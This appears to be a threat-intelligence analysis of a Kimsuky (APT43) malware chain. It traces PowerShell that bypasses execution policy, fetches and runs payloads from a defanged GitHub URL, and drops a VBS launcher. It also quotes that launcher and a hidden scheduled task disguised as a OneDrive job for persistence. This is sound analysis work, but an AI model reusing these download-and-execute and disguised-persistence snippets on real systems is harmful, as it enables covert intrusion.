



# Kimsuky Malware

<figure><figcaption></figcaption></figure>

Kimsuky aka: APT43, Black Banshee, Emerald Sleet, G0086, Greendinosa, Operation Stolen Pencil, RGB-D5, Sparkling Pisces, Springtail, THALLIUM, Thallium, Velvet Chollima. This threat actor targets South Korean think tanks, industry, nuclear power operators, and the Ministry of Unification for espionage purposes.

### Technical Breakdown

The attack chain starts by executing a `powershell` command capable enough to perform different functions. Execution starts by reading its own command line arguments to make sure that script is running in background and _ExecutionPolicy_ set to `Bypass` to evade local script restrictions.<br>

<figure><figcaption></figcaption></figure>

Then it downloads a file _view.pdf_ from a github repo `https[:]//raw[.]githubusercontent[.]com/brandonleeodd93-blip/real3/main/view.pdf` with a hardcoded github authorization token and saves the file in temp directory of windows with name _PumpGuard\_Pumpfun\_AI\_Attack\_Defence\_Requirements\_v2\_1\_GameEngine.pdf_ and executes it immediately.

<figure><figcaption></figcaption></figure>

It build path for two files `wale.ps1` and `whale.vbs`  and stores below content in the _vbs_ file that will be responsible for executing the _wale.ps1_ script with same arguments as above one.

```ps1
Set shell = CreateObject(WScript.Shell)
wale_path = shell.ExpandEnvironmentStrings("%USERPROFILE%") + "\AppData\Roaming\wale.ps1"
shell.Run(powershell.exe -windowstyle hidden -ExecutionPolicy Bypass -File wale_path)
Set shell = Nothing
```

Now it downloads _2.txt_ from same repo and save it in _coks.ps1_ and after executing it, saves its output in _wale.ps1._ It now schedule a task which will execute the vbs script `whale.vbs`  which will be triggered after 5 minute of bootup and keep running in interval of 60 minutes and it registers this task as name of a legitimate software `OneDrive Reporting Task-WORD-1-4-21-53529385-53453634-535436459-55601` .

```ps1
$action = New-ScheduledTaskAction -Execute 'wscript.exe' -Argument $Sch;
$trigger = New-ScheduledTaskTrigger -Once -At(Get-Date).AddMinutes(5) -RepetitionInterval(New-TimeSpan -Minutes 60);
$settings = New-ScheduledTaskSettingsSet -Hidden;
Register - ScheduledTask -TaskName "OneDrive Reporting Task-WORD-1-4-21-53529385-53453634-535436459-55601" -Action $action -Trigger $trigger -Settings $settings;
```

Atlast, it downloads _1.txt_ from same github repo, save it as _bpvme.ps1_ and executes it with same above arguments.

<figure><figcaption></figcaption></figure>

